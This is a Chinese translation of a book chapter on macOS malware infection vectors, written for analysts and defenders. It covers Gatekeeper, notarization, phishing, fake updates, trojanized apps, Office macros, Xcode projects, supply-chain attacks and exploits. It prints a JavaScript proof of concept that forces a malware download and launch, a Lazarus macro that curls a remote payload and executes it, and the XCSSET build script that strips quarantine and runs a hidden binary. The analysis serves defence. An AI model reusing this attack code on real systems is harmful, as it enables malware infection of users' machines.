# 第一章：感染途径


恶意软件的感染途径是它获取系统访问权限的方式。多年来，恶意软件作者依赖的手段从简单的社会工程学技巧到先进的远程零日漏洞利用不等，以感染 Mac。在本章中，我们将讨论许多 Mac 恶意软件作者使用的最常见技术。

迄今为止，最流行的恶意代码感染 Mac 的方法是通过欺骗用户让其自行感染，通常是直接下载并运行恶意代码。（相比之下，远程利用等技术则少得多。）为了实现这一目标，攻击者通常会利用常见的社会工程学攻击，包括技术支持诈骗、散布虚假的更新、虚假应用程序、木马化的应用程序以及感染的盗版应用程序。

当然，苹果公司非常关注 macOS 感染趋势，以及大多数此类感染需要明确的用户交互才能成功这一事实。作为回应，他们主动引入了多种操作系统级别的安全机制，旨在保护 Mac 用户。让我们首先简要了解这些*抗感染*保护机制，然后再深入探讨具体的 macOS 感染途径。

## Mac 保护机制

随着时间的推移，苹果一直在努力加强 macOS 的安全性，主要是为了防止用户协助的感染途径。这些保护机制中最古老的是文件隔离（File Quarantine），它在 OS X Leopard (10.5) 中首次引入。当用户首次打开一个下载的项时，文件隔离会向用户发出警告，要求明确确认才能允许文件执行；苹果的文档建议用户如果对文件的安全性有所怀疑，应点击取消。

为了应对不断演化的恶意软件感染途径，苹果在 OS X Mountain Lion (10.8) 中引入了 Gatekeeper。Gatekeeper 基于文件隔离功能（File Quarantine）构建，检查下载项的代码签名信息，并阻止那些不符合系统政策的项。（例如，它检查项是否使用有效的开发者 ID 签名。）想深入了解 Gatekeeper 的内部机制以及它的一些不足之处，请参见我的演讲《Gatekeeper Exposed》。^(1)

最近，macOS Catalina（10.15）通过引入*应用程序公证*要求，迈出了与用户辅助感染作斗争的又一步。这些要求确保苹果在允许软件运行之前扫描并批准所有软件^(2)。尽管这是应对基础 macOS 感染途径的一个优秀举措，但公证并非万无一失；恶意软件作者已迅速适应。一种简单的公证绕过方法利用了 macOS 仍然（截至 Big Sur）允许未公证的代码执行这一事实，尽管这需要用户手动协助。像旧版本 Shlayer 这样的恶意软件通过简单地指导用户如何运行恶意的未公证载荷，来利用这一事实（图 1-1）^(3)。



图 1-1：用户辅助的公证绕过说明（Shlayer）

Shlayer 的较新版本要狡猾得多。在某些情况下，其作者成功地欺骗了苹果，让其对他们的恶意创作进行公证^(4)。请查看 macOS 的`spctl`工具输出，我们在这里用它来显示 Shlayer 恶意应用程序*Installer.app*的代码签名信息（列表 1-1）：

```
% **spctl -a -vvv -t install /Volumes/Install/Installer.app** 
/Volumes/Install/Installer.app: accepted
**source=Notarized Developer ID**
origin=Developer ID Application: Morgan Sipe (4X5KZ42L4B)
```

列表 1-1：已公证的恶意软件（Shlayer）

`source`字段确认它被苹果误公证了。在后续章节中，我们将讨论代码签名的概念以及能够提取此类代码签名信息的工具。

不幸的是，其他恶意软件也被苹果错误地公证了。是的，虽然苹果最终意识到自己的错误并撤销了该恶意软件的开发者 ID 以撤回公证，但通常为时已晚。

尽管本章所描述的用户辅助感染途径不幸地在过去成功过，但最新版本的 macOS 常常能够成功阻止这些途径，这主要得益于公证要求。然而，这些感染途径仍然相关，因为使用旧版 macOS 的用户依然易受攻击，或者攻击者继续绕过、获得无意批准，或利用苹果严格公证要求中的漏洞。有关后者的示例，请参见我的博客文章《All Your Macs Are Belong To Us: 绕过 macOS 的文件隔离、Gatekeeper 和公证要求》^(5)。

## 恶意电子邮件

在涉及用户辅助感染途径时，恶意软件作者面临的第一个挑战是如何让恶意软件首先出现在用户面前。一种经过验证的方法是通过电子邮件。尽管大多数用户可能会忽视恶意电子邮件，但有些人可能会打开它们。但当然，除非电子邮件包含一些复杂的漏洞利用，否则仅仅打开一封电子邮件是不会导致感染的。

通常，攻击者要么直接通过电子邮件附件发送恶意软件，要么包含一个最终会指向恶意代码的 URL。在前一种情况下，电子邮件的正文可能包含指示，试图迫使用户打开并运行附件中的恶意软件。由于恶意附件可能伪装成无害的文档，用户可能会被误导打开它，从而不小心感染自己。

2017 年，研究人员发现了一种新的 Mac 恶意软件，针对的是一个广泛的电子邮件攻击活动中的用户。该恶意软件名为 Dok，它以一封声称要解决目标用户税务申报不一致的邮件形式到达。如果用户打开附件（*Dokument.zip*），他们会发现一个名称和图标设计用来掩盖它实际上是一个恶意应用程序的文件。^(6)

由于用户和安全工具通常对包含附件的电子邮件保持高度警惕，恶意电子邮件可能会改用包含恶意链接的方式。一旦点击，这些链接通常会将用户重定向到一个恶意网站，试图诱使用户下载并运行恶意代码。在本章的后续部分，我们将介绍多个示例，其中攻击者利用包含恶意链接的电子邮件作为多步骤感染途径的初步手段。

## 假冒技术与支持

另一个分发恶意软件的优秀机制当然是互联网。如果你是 Mac 用户，你可能在浏览网页时遇到过恶意弹窗。这些弹窗可能来自合法网站上的恶意广告、劫持或中毒的搜索结果，甚至是通过*拼写劫持*（typosquatting）技术的无良网站，后者通过注册与其他热门网站名称相似的恶意域名来针对不知情的用户。还有一些弹窗通过提供免费的内容吸引愿意访问的用户。通常，这些弹窗并不会直接安装恶意文件；相反，它们试图迫使用户自己感染自己。通常，这种情况从虚假的安全警告或更新开始。我们来简要看看前者的一个例子。

Homebrew，一个流行的包管理器，用于在 macOS 和 Linux 上安装软件，托管在*brew.sh*网站上。在 2020 年，网络犯罪分子通过域名*homebrew.sh*进行拼写劫持，试图让不知情的用户误访问该网站。如果用户访问了该站点，页面上会弹出各种显眼的提示，宣称用户的系统已被感染，并表示因“安全原因”被阻止访问（图 1-2）。



图 1-2：假冒的安全警告（Shlayer）

那些相信这些警告并拨打了所谓支持号码的用户，可能被强迫安装恶意软件，从而感染了他们的 Mac。正如 Mac 安全公司 Intego 所指出的，这些软件允许攻击者“远程访问你计算机上的信息，并可能进一步危害你的系统。”^(7)

## 假冒更新

攻击者还非常喜欢利用基于网页的弹窗显示虚假的更新警告。你可能曾遇到过浏览器弹窗，警告你 Adobe Flash Player 已过期。这些弹窗通常是恶意的，链接到一个下载页面，令人不惊讶的是，这并非合法的 Flash 更新，而是恶意软件（见图 1-3）。



图 1-3：虚假的 Flash Player 更新（Shlayer）

不幸的是，许多 Mac 用户仍然容易上当，认为更新是必要的，从而在此过程中感染了自己，通常是广告软件。

## 假冒应用程序

攻击者非常倾向于通过假冒应用程序来针对 Mac 用户。他们通常会试图欺骗用户下载并运行一个伪装成合法应用程序的恶意应用。与稍后会提到的木马化应用程序不同，假冒应用程序通常只是执行恶意负载然后退出，而不提供原应用的功能。因此，假冒应用程序通常没有任何异常。例如，Siggen 就通过伪装成流行的 WhatsApp 消息应用来针对 Mac 用户。（见[8）]攻击者控制的网站 *message-whatsapp.com* 会提供“一个包含应用程序的 zip 文件”，安全公司 Lookout 在推特中解释道（见[9）]。这个下载的 ZIP 文件，名为 *WhatsAppWeb.zip*，并非官方的 WhatsApp 应用程序（出乎意料，对吧），而是一个名为 WhatsAppService 的恶意应用。由于 *message-whatsapp.com* 网站看起来很合法（见图 1-4），普通用户没有注意到任何异常，就会下载并运行这个假冒的应用程序。



图 1-4：*message-whatsapp.com* 首页（Siggen）

## 木马化应用程序

想象你是一家流行加密货币交易所的员工，刚收到一封要求反馈新加密货币交易应用程序 JMTTrader 的电子邮件。邮件中的链接将你带到一个看起来合法的公司网站，网站上提示你下载声称是新应用程序的源代码和预编译二进制文件（图 1-5）。



图 1-5：JMTTrading 主页

下载、安装并运行应用程序后，依然没有异常出现；如预期所示，你会看到一个加密货币交易所的列表，可以选择其中一个开始交易（图 1-6）。


图 1-6：一个被植入木马的加密货币交易应用程序（Lazarus Group 后门）

不幸的是，尽管该应用程序的源代码完好无损，但 *JMTTrader.app* 的预编译安装程序已被偷偷植入了一个恶意后门。在安装过程中，这个后门安装了它自己的后门。这个特定的攻击被归咎于臭名昭著的 Lazarus APT Group，自 2018 年以来，他们一直采用这种相当复杂且多方面的社会工程方法来感染 Mac 用户。有关此 Lazarus Group 攻击的更多细节，以及他们对这种感染途径的普遍倾向，请参阅我的博客文章 “[Pass the AppleJeus](https://objective-see.com/blog/blog_0x49.html).”^(10)

## 盗版和破解应用程序

一种稍微复杂一些的攻击，虽然仍然需要用户进行高度互动，涉及将恶意软件打包进破解或盗版应用程序。在这种攻击场景中，恶意软件作者首先破解流行的商业软件，如 Photoshop，去除版权或许可限制。然后，他们会将恶意软件注入到软件包中，再分发给毫不知情的公众。下载并运行破解应用程序的用户将感染恶意软件。

例如，在 2014 年，恶意软件 iWorm 通过盗版的受欢迎的 OS X 应用程序传播，如 Adobe Photoshop 和 Microsoft Office，这些应用程序被攻击者上传到流行的 BT 网站 The Pirate Bay，如图 1-7 所示。



图 1-7：盗版应用程序（iWorm）

安装了这些应用程序的用户确实避免了为软件付费，但代价是潜伏的感染。有关 iWorm 如何持久感染 Mac 用户的更多详情，请参见“[侵入核心：iWorm 的感染途径和持久机制](https://www.virusbulletin.com/uploads/pdf/magazine/2014/vb201410-iWorm.pdf)”^(11)

最近，攻击者通过 VST Crack 网站分发恶意软件，分别称为 BirdMiner 和 LoudMiner。这些恶意软件通过盗版应用程序传播。著名的 Mac 恶意软件分析师 Thomas Reed 指出，BirdMiner 被发现在一个破解的高端音乐制作软件 Ableton Live 安装程序中。^(12) 此外，杀毒公司 ESET 发现了近 100 个与数字音频和虚拟工作室技术相关的盗版应用程序，这些应用程序包含 BirdMiner 恶意软件。^(13) 任何下载并安装这些盗版应用程序的用户都会使他们的系统感染该恶意软件。

## 自定义 URL 方案

恶意软件作者是非常狡猾且富有创意的一群人。因此，他们常常巧妙地滥用合法的 macOS 功能来感染用户。WindTail 恶意软件便是一个具有教育意义的典型例子。^(14)

WindTail 通过滥用 macOS 的各种功能感染 Mac 用户，包括 Safari 自动打开被认为是安全的文件和操作系统对自定义 URL 方案的注册。*自定义 URL 方案*是一项功能，允许一个应用程序启动另一个应用程序。为了感染 Mac 用户，恶意软件作者首先诱使目标访问一个恶意网页，该网页会自动下载包含恶意软件的 ZIP 压缩包。如果目标使用 Safari，浏览器会由于启用了默认的“下载后打开安全文件”选项，自动解压该压缩包（见图 1-8）。



图 1-8：Safari 的下载后打开“安全”文件功能

该压缩包的解压过程非常重要，因为 macOS 会在任何应用程序保存到磁盘后自动处理它，而解压自压缩包时便会发生这一过程。如果应用程序支持自定义 URL 方案，系统会将其注册为 URL 处理程序。

要确定一个应用程序是否支持自定义 URL 方案，您可以手动检查其 *Info.plist* 文件，该文件包含有关应用程序的元数据和配置信息。检查 WindTail 的 *Info.plist* 文件会发现它支持一个自定义 URL 方案：`openurl2622007`（见列表 1-2）：

```
<?xml version="1.0" encoding="UTF-8"?>
<plist version="1.0">
<dict>
  ...
  <key>CFBundleURLTypes</key>
  <array>
    <dict>
      <key>CFBundleURLName</key>
      <string>Local File</string>
      <key>CFBundleURLSchemes</key>
      <array>
        <string>**openurl2622007**</string>
      </array>
    </dict>
  </array>
  ...
</dict>
</plist>
```

列表 1-2：一个包含自定义 URL 方案 `openurl2622007`（WindTail）的*Info.plist* 文件

特别注意 `CFBundleURLTypes` 数组的存在，该数组包含 WindTail 支持的 URL 方案列表。在这个列表中，我们找到一个条目描述了 URL 方案，其中包括一个 `CFBundleURLSchemes` 数组，包含支持的方案：`openurl2622007`。在 Safari 自动解压应用程序后，macOS 启动服务守护进程（`lsd`）会解析应用程序，提取任何自定义 URL 方案，并将它们注册到启动服务数据库中。该数据库 *com.apple.LaunchServices-231-v2.csstore* 存储了诸如应用程序与 URL 方案映射等信息。您可以通过文件监控工具，如 macOS 的 `fs_usage`，被动地观察守护进程的文件操作（清单 1-3）：

```
# fs_usage -w -f filesystem
open  (R_____)  ~/Downloads/Final_Presentation.app   lsd
open  (R_____)  ~/Downloads/Final_Presentation.app/Contents/Info.plist   lsd

PgIn[A] /private/var/folders/pw/sv96s36d0qgc_6jh45jqmrmr0000gn/0/
         com.apple.LaunchServices-231-v2.csstore   lsd
```

清单 1-3：观察启动服务守护进程（`lsd`）的文件 I/O 事件

在这个输出中，您可以看到 macOS 内置的文件监控工具（`fs_usage`）捕获启动服务守护进程（`lsd`），打开并解析恶意应用程序，并访问启动服务数据库（*com.apple.LaunchServices-231-v2.csstore*）。接下来，如果我们通过 `lsregister` 命令打印出数据库内容，可以看到一个新条目将恶意应用程序 *Final_Presentation.app* 映射到 `openurl2622007` 自定义 URL 方案（清单 1-4）：

```
% **/System/Library/Frameworks/CoreServices.framework/Versions/A/Frameworks/**
**LaunchServices.framework/Versions/A/Support/lsregister -dump**

BundleClass: kLSBundleClassApplication
...
path: ~/Downloads/Final_Presentation.app
name: usrnode

claimed schemes:            openurl2622007:
-------------------------------------------
claim id:                   Local File (0xbee4)
localizedNames:             "LSDefaultLocalizedValue" = "Local File"
rank:                       Default
bundle:                     usrnode (0x8c64)
flags:                      url-type (0000000000000040)
roles:                      Viewer (0000000000000002)
bindings:                   openurl2622007:
```

清单 1-4：WindTail（*Final_Presentation.app*），现在作为自定义 URL 处理程序注册

现在操作系统已自动将恶意软件注册为 `openurl2622007` 自定义 URL 方案的处理程序，它可以直接从恶意网站启动。

清单 1-5 中的概念验证代码完全模仿了 WindTail 一旦用户访问其恶意网站后如何感染用户：

```
<html>
1 <body id="b" onload="exploit();"></body> 

<script type="text/javascript">
  function exploit () {
     var a = document.createElement("a");
     var x = document.getElementById("b");

     a.setAttribute("href","https://foo.com/malware.zip");
     a.setAttribute("download", "Final_Presentation");
     x.appendChild(a);

   2 a.click(); 

     // wait for download and extraction to complete...

   3 location.replace("openurl2622007://"); 
  }

</script>
</html>
```

清单 1-5：通过 Safari 下载并启动 WindTail（一个概念验证）

在页面加载 1 时，JavaScript 代码执行了一个程序化点击 2，强制 Safari 自动下载包含恶意应用程序的 ZIP 存档，该应用程序具有自定义 URL 方案。下载完成后，Safari 会自动解压存档，触发自定义 URL 方案的注册。然后，通过 `location.replace` API，漏洞代码会向（新注册的）自定义 URL 方案 3 发出请求，从而触发恶意应用程序的启动！

对用户来说，幸运的是，Safari 和其他浏览器会显示一个警告，通知用户网页正在尝试启动一个应用程序。此外，macOS 可能会在应用程序实际启动时生成第二个警告。但由于攻击者可以将应用程序命名为某个无害的名称（例如*Final_Presentation*，如图 1-9 所示），普通用户可能会被诱骗点击“允许”和“打开”，从而感染自己。



图 1-9：浏览器警告……但这够吗？

## Office 宏

尽管它们相对不复杂，但包含 Microsoft Office 宏的恶意文档已经成为感染 Mac 用户的一种流行手段。*宏*只是可以直接嵌入到 Office 文档中的命令。用户可以出于多种合法原因在 Office 文档中嵌入宏，比如自动化常见任务。但是，恶意软件作者也可以滥用它们，将恶意代码添加到原本无害的文件中。由于宏是微软的技术，它们幸运地在苹果的生产力工具套件中（包括 Pages 和 Notes）没有得到支持。然而，随着 macOS 在企业中的持续渗透，Microsoft Office 套件在 macOS 上的普及也急剧上升。黑客和恶意软件作者都意识到这一趋势，因此针对苹果用户的基于宏的攻击也在增加。例如，Lazarus APT 组织在 2019 年发起了针对 Mac 用户的基于宏的攻击。^(15)

为了使基于宏的攻击成功，用户必须在 Microsoft Office 应用程序中打开一个感染了的 Microsoft Office 文档（如 Word），并点击启用宏提示框（图 1-10）。



图 1-10：Microsoft Word 宏警告

宏代码通常是用 Visual Basic for Applications (VBA) 编写的，一般会调用微软的 API，如 `AutoOpen` 和 `Document_Open`，以确保其恶意代码在文档打开并且用户启用宏时会自动执行。

你可以使用诸如 [开源](https://github.com/decalage2/oletools/wiki/olevba) `olevba` [工具](https://github.com/decalage2/oletools/wiki/olevba) 提取嵌入的宏代码。例如，看看以下宏代码（清单 1-6），它出现在一个恶意 Word 文档中，目标是韩国用户：

```
% **olevba -c "샘플_기술사업계획서(벤처기업평가용.doc"**

Sub AutoOpen()
 ...

 #If Mac Then 1
    sur = "https://nzssdm.com/assets/mt.dat" 2

    spath = "/tmp/": i = 0 3
    Do
      spath = spath & Chr(Int(Rnd * 26) + 97): i = i + 1
    Loop Until i > 12

    res = system("curl -o " & spath & " " & sur) 4
    res = system("chmod +x " & spath)
    res = popen(spath, "r") 5
```

清单 1-6：恶意宏代码（Lazarus Group 后门）

提取的 Mac 代码包含了 Mac 特定的逻辑，位于 `#If Mac Then` 块中 1。该代码首先执行一些初始化操作，包括设置一个带有远程 URL 的变量 2，并动态构建一个位于 */tmp* 目录下的随机路径 3。接着，它使用 `curl` 下载远程资源 (*mt.dat*) 到随机生成的本地路径 4。一旦下载完成，它会调用 `chmod` 设置文件的可执行权限，并通过 `popen` API 执行该文件 5。这个下载的文件是一个持久化的 macOS 后门。在第四章中，我们将深入分析恶意 Office 文档的细节。

自 2016 年 Office 以来，macOS 上的 Microsoft Office 应用程序运行在一个限制性沙盒中，旨在限制任何恶意代码的影响。然而，在多个情况下，安全研究人员，包括作者本人，发现了微小的沙盒逃逸。如果你有兴趣了解更多关于基于宏的攻击和沙盒逃逸作为 macOS 感染向量的内容，可以查看我的演讲“Documents of Doom: Infecting macOS via Office Macros。”^(16)

## Xcode 项目

有时，感染向量非常有针对性，就像 XCSSET 的案例一样。该恶意软件试图通过感染 Xcode 项目来感染 macOS 开发者。*Xcode*是开发 Apple 设备软件的事实标准 IDE。如果下载并构建一个 XCSSET 感染的 Xcode 项目，恶意代码会被自动执行，开发者的 Mac 也会被感染。发现 XCSSET 的趋势科技公司解释道：

> 这些 Xcode 项目已被修改，使得在构建时，这些项目会运行恶意代码。最终，这导致主 XCSSET 恶意软件被丢弃并在受影响的系统上运行。感染的用户还容易遭遇凭证、账户和其他重要数据被窃取的风险。^(17)

检查一个感染了 XCSSET 的 Xcode 项目，可以看到项目的*project.pbxproj*文件中有一个脚本，执行来自一个名为*/.xcassets/*的隐藏目录中的另一个脚本*Assets.xcassets*（图 1-11）。



图 1-11：感染 Xcode 项目中的恶意构建脚本（XCSSET）

构建被感染的项目会触发脚本的执行。查看*Assets.xcassets*脚本（清单 1-7）可以发现，它执行一个名为*xcassets*的二进制文件，这是恶意软件的核心组件：

```
cd "${PROJECT_FILE_PATH}/xcuserdata/.xcassets/"
xattr -c "xcassets"
chmod +x "xcassets"
./xcassets "${PROJECT_FILE_PATH}" true%
```

清单 1-7：恶意构建脚本*Assets.xcassets*（XCSSET）

具体而言，脚本会进入隐藏的*/.xcassets/*目录。然后，它通过移除任何扩展属性并设置可执行（`+x`）标志，准备执行*xcassets*二进制文件。最后，脚本执行该二进制文件，并传入诸如项目路径等参数。

## 供应链攻击

另一种感染目标系统的方法是黑客攻击合法的开发者或商业网站，这些网站分发第三方软件。这些所谓的*供应链攻击*既非常有效，又难以检测。例如，在 2017 年中期，攻击者成功入侵了流行的视频转码应用程序 HandBrake 的官方网站。通过这一访问，他们得以颠覆合法的转码应用程序，将其重新打包并加入他们的恶意软件副本，名为 Proton。^(18)

2018 年，另一起供应链攻击针对了流行的 Mac 应用网站 *macupdate.com*。在此次攻击中，黑客通过篡改下载链接，成功修改了流行 macOS 应用程序的下载链接，如 Firefox。具体来说，他们将这些链接修改为指向包含名为 CreativeUpdate 的恶意软件的木马版本（图 1-12）。^(19)

本章讨论的大部分攻击和感染向量，应当通过在 macOS 10.15+ 中引入应用程序公证要求得到完全或部分缓解。如前所述，这些要求确保 Apple 在允许软件运行之前，已经对其进行扫描和批准。

不幸的是，正如我们接下来将讨论的，感染 Mac 系统的其他途径仍然存在。



图 1-12：访问 *macupdate.com* 并下载运行了木马应用程序的用户，可能不幸地感染了自己——这完全不是他们的错。

## 远程服务的账户泄露

在 macOS 上，用户可以启用并配置各种*面向外部*的服务，如 RDP 和 SSH，以允许用户远程共享内容或提供合法的远程访问。然而，如果这些服务配置错误或使用了弱密码或被泄露的密码，攻击者可能会通过这些服务访问系统，从而执行恶意代码。

多年来，臭名昭著的 FruitFly 恶意软件的感染向量一直是一个谜。直到 2018 年，FBI 的一份闪电报告揭示了该恶意软件是如何能够感染远程系统的。答案是：通过攻击面向外部的服务。根据报告：

> 攻击向量包括扫描和识别面向外部的服务，包括 Apple Filing Protocol (AFP，端口 548)、RDP 或其他 VNC、SSH（端口 22）以及 “Back to My Mac”（BTMM），这些服务通常会被弱密码或从第三方数据泄露中派生的密码攻击。^(20)

2020 年，攻击者将 IPStorm 恶意软件从 Windows 和 Linux 移植到 macOS。IPStorm 通过 *暴力破解* SSH 账户来感染远程系统（包括启用了 SSH 的 macOS 系统）。一旦猜测出有效的用户名和密码，它就会下载并执行有效负载到远程系统。^(21) 列表 1-8 是 IPStorm 代码的一部分，包含负责将自身安装到远程系统上的逻辑：

```
int ssh.InstallPayload(...) {

   ssh.SystemInfo.GoArch(...);

 statik.GetFileContents(...);

   ssh.(*Session).Start(...);
}
```

列表 1-8：远程感染逻辑（IPStorm）

如您所见，IPStorm 调用了一个名为 `GoArch` 的方法，用于收集远程系统的信息，例如其架构。通过这些信息，它可以通过调用 `GetFileContents` 方法下载兼容的有效负载。最后，它在远程系统上执行该有效负载，开始持续感染。

## 漏洞利用

大多数 macOS 注入向量需要相当多的用户交互，例如下载和运行恶意应用程序。此外，如前所述，最近的 macOS 恶意软件防护措施可能已经能够阻止大多数此类攻击。*利用漏洞*，另一方面，更加隐蔽，因为它们可以在没有直接用户交互或操作系统级别防护检测的情况下静默安装恶意软件。利用漏洞是指通过代码利用某个漏洞来执行攻击者指定的代码，例如，安装恶意软件。*零日漏洞利用*是指那些攻击尚未发布修补程序的漏洞，使其成为最致命的感染途径。即使供应商发布了零日漏洞的修补程序，未应用安全更新的用户仍然容易受到攻击。攻击者和恶意软件可以利用这一事实，针对未修补的用户进行攻击。

攻击者和恶意软件作者通常会试图发现或采购浏览器、邮件或聊天客户端等应用程序中的漏洞，以便利用漏洞实施远程攻击。例如，最常见的 Mac 恶意软件之一 Flashback，利用了一个未修补的 Java 漏洞，感染了超过五十万台 Mac 计算机。^(22)

最近，在 2019 年，黑客利用 Firefox 的零日漏洞，将恶意软件部署到完全修补的 macOS 系统中。以下诱人的电子邮件吸引了目标用户访问包含漏洞代码的恶意网站：

> 亲爱的 XXX，
> 
> 我的名字是 Neil Morris，我是 Adams Prize 组织者之一。
> 
> 每年我们都会更新一支独立专家团队，他们负责评估竞争项目的质量：[Adams Prize 官方网站](http://people.ds.cam.ac.uk/nm603/awards/Adams_Prize)
> 
> 我们的同事推荐您作为该领域的经验丰富的专家。我们需要您的协助，评估几项 Adams Prize 的项目。
> 
> 期待收到您的回复。
> 
> 此致敬礼，
> 
> Neil Morris

如果用户通过 Firefox 访问该网站，零日漏洞将悄无声息且持续地安装一个 macOS 后门。^(23) 幸运的是，对于普通的 macOS 用户来说，利用零日漏洞部署恶意软件的情况相对较少见。然而，低估这些强大能力的使用，尤其是对于复杂的 APT 和国家级黑客组织来说，是天真的。当然，这些漏洞利用对于任何愿意付费的人都是可得的。图 1-13 显示了一封泄露的电子邮件，发送给臭名昭著的网络间谍公司 HackingTeam，提供了针对 Apple 系统的漏洞利用。



图 1-13：零日漏洞待售

该公司最终以 45,000 美元购买了该漏洞，一个 Flash 零日漏洞。^(24) 随着苹果公司通过添加诸如应用程序公证要求等安全机制不断加强 macOS 的安全性，攻击者将大部分被迫放弃低效的用户协助感染方式，而转而利用漏洞来成功感染 macOS 用户。

## 物理访问

